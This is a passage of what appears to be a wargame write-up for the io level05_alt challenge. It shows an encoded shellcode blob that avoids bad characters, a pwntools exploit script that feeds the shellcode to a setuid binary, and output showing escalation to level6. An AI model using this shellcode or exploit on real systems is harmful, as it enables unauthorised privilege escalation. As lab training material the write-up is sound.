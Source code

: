 Sometimes, there could be too many bad characters such that the encoder might not find a way to remove all. Hence, it is a good idea to check if all the bad characters are avoided before using it.

```sh
$ python ./level5_alt_exploit.py 
FOUND!
Length of encoded: 114
all avoided
d9d0fcd97424f45e83c61889f7ac93ac28d8aa80ebac75f53ca6f65ec72f4776669544731e91c129a8d7f95bf76050be9c25a88ba91184854c4d3536b2b3028332666185ec5e258e44452b2c2354c0891d6ea30d070b237cd2d30bec085945ce593a76a7ab7d37a1aab5d62eab780282ac12
```

Next, I ssh back into level5 and copy paste the encoded shellcode using my previous script as template.

```python
from pwn import *

shellcode = "d9d0fcd97424f45e83c61889f7ac93ac28d8aa80ebac75f53ca6f65ec72f4776669544731e91c129a8d7f95bf76050be9c25a88ba91184854c4d3536b2b3028332666185ec5e258e44452b2c2354c0891d6ea30d070b237cd2d30bec085945ce593a76a7ab7d37a1aab5d62eab780282ac12".decode("hex")
payload = shellcode

p = process(["/levels/level05_alt", payload])
p.interactive()
```


```sh
level5@io:/tmp/t$ python exploit_alt.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process '/levels/level05_alt': pid 7833
[*] Switching to interactive mode
$ id
uid=1005(level5) gid=1005(level5) euid=1006(level6) groups=1005(level5),1029(nosu)
```

level5 alternate is much cooler than level5 alone :D
